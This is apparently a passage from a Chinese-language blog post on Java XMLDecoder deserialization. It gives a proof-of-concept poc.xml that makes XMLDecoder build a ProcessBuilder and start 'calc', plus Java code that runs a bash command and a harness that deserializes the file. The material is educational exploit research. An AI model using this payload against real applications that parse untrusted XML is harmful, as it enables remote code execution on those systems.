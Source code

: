 ```
String[] cmd = new String[3];
cmd[0] = "/bin/bash";
cmd[1] = "-c";
cmd[2] = "open /System/Applications/Calculator.app/";
new ProcessBuilder(cmd).start();
```

当然我windows的主机可以直接执行calc，这里主要是想看看array加上调用构造函数怎么写的

最后的poc.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

通过XMLDecoder反序列化

```
package DawnT0wn;

import java.beans.XMLDecoder;
import java.io.*;

public class XmlDecoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("Poc.xml")));
        Object result = d.readObject();
        d.close();
    }
}
```

![image-20220507155540779](images/5.png)
